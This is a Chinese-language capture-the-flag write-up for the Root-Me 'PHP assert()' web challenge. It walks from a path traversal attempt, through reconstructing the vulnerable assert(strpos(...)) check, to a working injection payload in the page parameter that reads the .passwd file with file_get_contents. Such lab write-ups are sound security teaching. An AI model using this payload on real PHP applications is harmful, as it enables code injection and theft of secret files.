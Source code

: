 Root-Me [PHP assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
===

該頁面有三個選項 `Home`、`About`、`Contact`。

## 解題關鍵
1. GET Payload
2. PHP Basic

## 提示訊息
```
Find and exploit the vulnerability to read the file .passwd.
```

## 解題方法
能夠從頁面觀察上觀察到的變化只有切換 `Home`、`About`、`Contact` 時，URL 上的 `page` Payload，嘗試透過 `../../../.passwd` 讀取 `.passwd` 機密文件，跳出了以下訊息。  

```
Warning: assert(): Assertion "strpos('includes/../../../.passwd.php', '..') === false" failed in /challenge/web-serveur/ch47/index.php on line 8 Detected hacking attempt!
```

從訊息上可以發現，僅能讀取 `includes` 以下的檔案，並且會把後輟加上 `.php`，顧可以猜測程式碼如下。  

```php
if (assert(strpos('includes/' . $_GET['page'] . '.php', '..') === false))
```

隨後嘗試將 Payload 改為 `../../../.passwd,' ') || echo "Hello World"//`，雖然輸出結果有成功閉合，但還是回傳與法錯誤。  

最後是參考 `lyy289065406` 大大的解法，前後閉合，並使用 `print_r` 來輸出、`file_get_contents` 來讀檔。  

```
?page=',' ') || print_r(file_get_contents(".passwd"))|| strpos('
```

閉合後就會變成以下的狀態。  

```php
if (assert(strpos('includes/',' ') || print_r(file_get_contents(".passwd"))|| strpos('.php','..') === false) {
```


## Reference
[lyy289065406 - CTF-Solving-Reports - [19] [25P] PHP assert](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/rootme/Web-Server/%5B19%5D%20%5B25P%5D%20PHP%20assert)

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)